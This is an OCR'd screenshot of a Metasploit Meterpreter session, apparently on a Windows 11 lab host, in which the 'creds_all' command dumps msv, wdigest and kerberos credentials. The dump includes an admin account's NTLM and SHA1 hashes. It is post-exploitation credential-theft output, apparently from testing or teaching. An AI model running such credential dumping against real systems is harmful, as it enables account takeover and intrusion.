 ```
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain      NTLM                              SHA1
--------  ------      ----                              ----
admin     WIN11-TEST  209c6174da490caeb422f3fa5a7ae634  7c87541fd3f3ef5016e12d411900c87a6046a8e8

wdigest credentials
===================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
WIN11-TEST$  WORKGROUP   (null)
admin        WIN11-TEST  (null)

kerberos credentials
====================

Username     Domain      Password
--------     ------      --------
(null)       (null)      (null)
admin        WIN11-TEST  (null)
win11-test$  WORKGROUP   (null)


meterpreter > 
```

